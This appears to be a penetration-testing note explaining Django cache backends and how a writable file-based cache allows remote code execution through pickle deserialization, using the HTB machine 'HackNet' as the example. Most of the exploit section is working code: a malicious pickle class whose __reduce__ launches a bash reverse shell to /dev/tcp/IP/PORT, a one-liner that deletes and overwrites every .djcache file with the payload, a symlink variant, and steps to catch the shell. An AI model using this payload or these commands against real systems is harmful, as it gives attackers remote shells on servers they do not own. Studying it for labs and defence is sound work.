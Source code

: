 A built in feature of the Django framework that provides tools to implement caching strategies for Django web applications.

Django supports the following types of caching:

- In memory caching
- Filesystem caching
- Database caching
- Memcache
- Redis
- Custom cache backends

The type of caching strategy used is usually found in the `settings.py` file. It resemble the following:

```python 
CACHES = {
    "default": {
        "BACKEND": "django.core.cache.backends.memcached.PyMemcacheCache",
        "LOCATION": "unix:/tmp/memcached.sock",
    }
}
```

# Pickle Deserialization in Django Caches

## Pickle

A module in Python that lets you serialize and deserialize data. Meaning you can break down a python object into a byte stream that can be rebuilt in a different context by loading said byte stream.

## Exploit

Django caches are pickled objects. Which means **IF WE CAN WRITE TO ONE OF THESE CACHES, WE CAN EXECUTE ARBITRARY CODE**. 

We create a new (and poisoned) cache that executes the code we cant as soon as the Django app deserializes it. The mechanism is largely the same for each type of caching. The example below uses **Filesystem Caching**. Its from the machine `HackNet` on HTB.

```python
CACHES = {
    "default": {
        "BACKEND": "django.core.cache.backends.filebased.FileBasedCache",
        "LOCATION": "/var/tmp/django_cache",
	    "TIMEOUT":60,
	     "OPTIONS": {'MAX_ENTRIES': 10000}
	 }
 }
```

Check if we can write to the `/var/tmp/django_cache` folder. 

If this is doable, we should look for any existing `.djcache` files. We're going to either replace them with our poisoned files, or symlink or files to one of these cache files.

Here's a generic script that creates a pickled payload that can be linked, or replace the existing files

```python title=picklescript fold
import pickle
import base64
import os

class RCE:
	def __reduce__(self):
        cmd = ("bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'",)
        return os.system, cmd

if __name__ == '__main__':
	payload = pickle.dumps(RCE())
	# Prints a base64 version that can be used in another script to replace the existing pickle
	print(base64.urlsafe_b64encode(payload))
	
	# Writes a file with the poison pickle that we have to link to the existing cache files using a symlink
	with open("poison.pickle", "wb") as f:
		f.write(payload)
```

In the case of the base64 pickledump, we can use the following one liner to replace all the `.djcache` files with our poison pickle.

```bash
for i in $(ls *.djcache); do (rm -f $i; echo '<bass64-pickled-data>' | base64 -d > $i); done
```

Alternatively, we can use a symlink on our poison pickle file and link it to an existing `.djcache` file.

```sh
ln -s poision.pickle <name of cache file>.djcache
```

Lastly, run a listener for reverse shells. 

Then just refresh the application/view that deals with this caching part, and wait for a callback on the reverse shell.

# References

https://davidhamann.de/2020/04/05/exploiting-python-pickle/

https://notes.subh.space/linux-privilege-escalation/django-cache-rce

https://dev.to/pragativerma18/django-caching-101-understanding-the-basics-and-beyond-49p